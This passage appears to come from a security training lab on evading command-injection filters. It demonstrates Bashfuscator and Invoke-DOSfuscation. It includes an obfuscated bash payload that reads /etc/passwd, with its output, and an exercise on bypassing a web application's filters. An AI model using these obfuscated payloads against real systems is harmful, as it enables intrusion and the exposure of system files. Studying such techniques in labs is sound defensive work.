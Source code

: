 We can now test the outputted command with `bash -c ''`, to see whether it does execute the intended command:

```shell
bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...

```

We can see that the obfuscated command works, all while looking completely obfuscated, and does not resemble our original command. We may also notice that the tool utilizes many obfuscation techniques, including the ones we previously discussed and many others.

Exercise: Try testing the above command with our web application, to see if it can successfully bypass the filters. If it does not, can you guess why? And can you make the tool produce a working payload?

* * *

## Windows (DOSfuscation)

There is also a very similar tool that we can use for Windows called [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation). Unlike `Bashfuscator`, this is an interactive tool, as we run it once and interact with it to get the desired obfuscated command. We can once again clone the tool from GitHub and then invoke it through PowerShell, as follows:

```powershell
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

HELP MENU :: Available options shown below:
[*]  Tutorial of how to use this tool             TUTORIAL
...SNIP...

Choose one of the below options:
[*] BINARY      Obfuscated binary syntax for cmd.exe & powershell.exe
[*] ENCODING    Environment variable encoding
[*] PAYLOAD     Obfuscated payload via DOSfuscation

```

We can even use `tutorial` to see an example of how the tool works. Once we are set, we can start using the tool, as follows:

```powershell
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

```
